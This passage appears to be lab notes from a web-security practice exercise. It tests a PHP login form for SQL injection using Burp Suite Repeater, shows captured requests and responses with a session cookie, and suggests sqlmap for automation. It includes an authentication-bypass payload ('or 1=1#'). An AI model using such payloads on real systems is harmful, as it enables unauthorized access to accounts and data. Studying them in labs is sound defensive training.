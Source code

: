 ```bash
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

username=jeremy&password=jeremy
```

```bash
# Response
HTTP/1.1 200 OK
Date: Mon, 24 Feb 2025 20:56:29 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Set-Cookie: session=6967cabefd763ac1a1a88e11159957db; expires=Mon, 24-Feb-2025 21:56:29 GMT; Max-Age=3600
Refresh: 0; url=/labs/i0x02.php
Vary: Accept-Encoding
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: *
Content-Length: 1928
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8


<!DOCTYPE html>
<html lang="en">
...
</html>
```

- `Set-Cookie: session=...` - important session token
  - The followed GET requests had the `Cookie: session=...` header set - login ok
- `Content-Length: 1027` - may be necessary
- Test for injections by sending to **Repeater** the POST request and modify it

```bash
# Payload
username=jeremy&password=password

# Response
Content-Length: 2122
# there is a SQL error
```

```bash
username=jeremy'+or+1%3d1%23&password=password
# URL-encoded key characters (CTRL+U)

# Response
Content-Length: 2122
# there is a SQL error
```

- Try to automate the process with `sqlmap`

